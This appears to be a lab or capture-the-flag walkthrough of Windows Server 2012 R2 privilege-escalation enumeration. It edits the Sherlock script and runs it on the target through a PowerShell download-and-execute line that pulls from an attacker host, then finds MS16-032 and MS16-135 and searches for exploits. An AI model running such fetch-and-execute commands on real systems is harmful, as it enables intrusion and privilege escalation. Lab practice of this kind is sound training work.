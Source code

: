 ![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123638486_image.png)

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123610860_image.png)

*2012 R2 Standard*
Boot times

## use/edit Sherlock to enumerate KBs

copy Sherlock to directory

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123762188_image.png)

Sherlock Github Link: https://github.com/rasta-mouse/Sherlock

Grep for functions within sherlock:

    grep -i function Sherlock.ps1

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123812432_image.png)

*we are going to want to edit the script to “Find-AllVulns” and add line to bottom.*

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123885173_image.png)

*save.*

Target InvokedShell Download Sherlock:

    IEX(New-Object Net.Webclient).downloadString('http://10.10.14.17:8000/Sherlock.ps1')

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557124020093_image.png)

(returns)

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557124061009_image.png)

*MS16-032 : Appears Vulnerable*
*MS16-135 : Appears Vulnerable*

*if you were to search all the KBs on the target system you would see it was last patched in 2016.*

## google “Vulnerable” exploits
search for exploits:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557124198808_image.png)

*first result happens to be metasploit.*

search “MS16-032 powershell”

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557126828793_image.png)

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557126841621_image.png)
